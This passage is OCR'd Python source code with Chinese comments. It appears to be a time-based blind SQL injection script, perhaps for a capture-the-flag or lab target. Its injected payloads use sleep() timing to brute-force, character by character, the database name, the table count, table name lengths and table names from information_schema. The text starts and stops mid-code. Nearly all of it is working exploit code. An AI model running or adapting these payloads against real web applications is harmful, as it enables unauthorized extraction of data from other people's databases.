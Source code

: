 ```python

    if ( time() - t > 0.1 ):
        print("DATABASE_LENGTH:"+str(database_length))
        break
    else:
        database_length += 1


db_name = ""
for l in range(database_length):
    for a in range(128):

        param = "1' and if(ascii(substr(database(),"  +  str(l+1) +  "))="  +  str(a) + ",sleep(0.1),1) #"
        t = time()
        response = request.urlopen(url + parse.quote(param))

        if (time()-t >0.1):
            db_name += chr(a)
            break
print("[*]:"+db_name)

#2 查表数量

table_num = 0

while True:
    param = "1 ' and if((select count(*) from information_schema.tables where table_schema=database())="+str(table_num)+",sleep(0.1),1) #"
    t = time()
    response = request.urlopen(url + parse.quote(param))
    if (time() - t > 0.1 ):
        print("table_num:"+str(table_num))
        break
    else:
        table_num += 1

# 查表长度

def ta_length(num):
    table_length = 0
    while True:
        param = "1' and if(length(substr((select table_name from information_schema.tables where table_schema=database() limit "+str(num)+",1),1))="+str(table_length)+",sleep(0.1),1) #"
        t = time()
        response = request.urlopen(url + parse.quote(param))
        if (time() - t > 0.1 ):
            return table_length
            break
        else:
            table_length += 1

# 查表

for n in range(table_num):
    table_name =""
    for l  in range(ta_length(n)): # 表的长度
        
        for a in range(0,128): #爆破表
            
            param = "1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit "+str(n)+",1),"+str(l+1)+",1)) ="+str(a)+",sleep(0.1),1) #"
            t = time()
```